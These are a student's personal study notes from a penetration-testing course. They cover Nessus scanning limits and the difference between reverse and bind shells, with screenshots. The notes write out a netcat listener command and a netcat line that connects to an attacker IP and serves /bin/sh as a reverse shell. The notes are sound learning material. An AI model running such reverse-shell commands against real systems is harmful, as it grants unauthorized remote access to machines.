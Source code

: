 *note that notes for this course start with module 11, which is basically the middle-part of the course, I've previously went over the modules before this one some time ago and I'm now coming back to the course after building up better fundamentals, I strongly recommend this if you feel like the course becomes too complicated or you feel you're not learning enough*

Nessus can scan private addresses, up to 16 at a time (no websites or external hosts)

scans can be scheduled and adjusted for periods (yearly weekly etc)

![2. Source Material/Career/Images/Pasted image 20250221215021.png](../../../../7.%20Images/Pasted%20image%2020250221215021%201.png)
*Nessus view*

![2. Source Material/Career/Images/Pasted image 20250221215106.png](../../../../7.%20Images/Pasted%20image%2020250221215106%201.png)
*finished scan example*

---

## Exploitation Basics

### Reverse Shells vs Bind Shells

![2. Source Material/Career/Images/Pasted image 20250221215307.png](../../../../7.%20Images/Pasted%20image%2020250221215307%201.png)
*Most common Shell (Netcat)*

Used 95% of the time

A shell is access to a machine (pop a shell = get access)

Reverse Shell = a victim connects to us, we're gonna listen

nc -lvp 4444  = listening to port 4444

nc 192.168.1.1 4444 -e /bin/sh = I wanna connect to this IP and when I do that I'm gonna establish this bin shell

![2. Source Material/Career/Images/Pasted image 20250221215544.png](../../../../7.%20Images/Pasted%20image%2020250221215544%201.png)
*Bind Shell view*

Bind Shell = we open a port on the machine and then we connect to it, we fire of an exploit and that opens up a port

usually an external assesment

![[Pasted image 20250221220819.png]]
*Reverse Shell example, left side attacker, right side victim*

